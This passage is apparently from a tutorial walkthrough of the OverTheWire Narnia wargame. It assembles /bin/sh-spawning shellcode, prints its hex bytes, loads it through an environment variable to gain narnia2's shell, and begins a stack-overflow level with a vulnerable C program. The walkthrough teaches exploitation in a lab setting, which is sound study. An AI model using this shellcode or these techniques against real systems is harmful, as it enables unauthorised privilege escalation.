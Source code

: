 Compiling:

```sh
narnia1@melinda:/tmp$ nasm shellspawn.asm
narnia1@melinda:/tmp$ ls
shellspawn shellspawn.asm
narnia1@melinda:/tmp$ cat shellspawn
1�Ph//shh/bin��P��P���
```

Exporting it to *EGG*:

```sh
narnia1@melinda:/tmp$ export EGG=$(cat shellspawn)
```
We are ready to exploit the binary:

```sh
narnia1@melinda:/tmp$ /narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2
```



### Step 4: Convert it to Hexadecimal

It's really useful to have a hexadecimal form of our exploit (as we will see in the next levels) so we will use ```xxd``` to read it:

```sh
narnia5@melinda:/tmp$ xxd shellspawn
0000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e350 1.Ph//shh/bin..P
0000010: 89e2 5089 e1b0 0bcd 80 ..P......
```

Awesome! We can go ahead and test it:
```sh
narnia1@melinda:/tmp$ export EGG=`python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80"'`
narnia1@melinda:/tmp$ /narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2
```


----------


## Level 2: Stack Overflow to the Return Address

### Step 1: Understanding the Problem:

The third level starts with:

```
narnia2@melinda:/narnia$ ./narnia2
Usage: ./narnia2 argument
narnia2@melinda:/narnia$ cat narnia2.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
 char buf[128];

 if(argc == 1){
 printf("Usage: %s argument\n", argv[0]);
 exit(1);
```

[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://singularity.miavonsteinkirch.com/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP